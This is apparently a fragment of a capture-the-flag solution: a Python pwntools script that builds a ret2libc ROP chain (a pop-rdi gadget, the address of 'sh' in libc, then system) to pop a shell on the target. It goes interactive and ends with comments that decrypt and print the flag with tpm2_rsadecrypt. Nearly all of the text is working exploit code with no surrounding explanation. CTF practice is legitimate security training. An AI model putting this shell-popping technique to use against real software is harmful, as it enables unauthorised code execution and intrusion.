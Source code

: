 ```python
prog = log.progress('Popping shell')
buf  = p64(POP_RDI)
buf += p64(libc_base + libc.search('sh\x00').next())
buf += p64(libc_base + libc.symbols['system'])
buf += p64(MAIN)
do_rop(buf, final=True)
p.recvuntil('AAAA: ')
p.recvn(21)
prog.success()

p.interactive()

# $ tpm2_rsadecrypt -c context -I flag.txt.enc -o /tmp/flag.txt
# $ cat /tmp/flag.txt
# CTF-BR{TPM2.0_tools_4_easy_decryption_}
```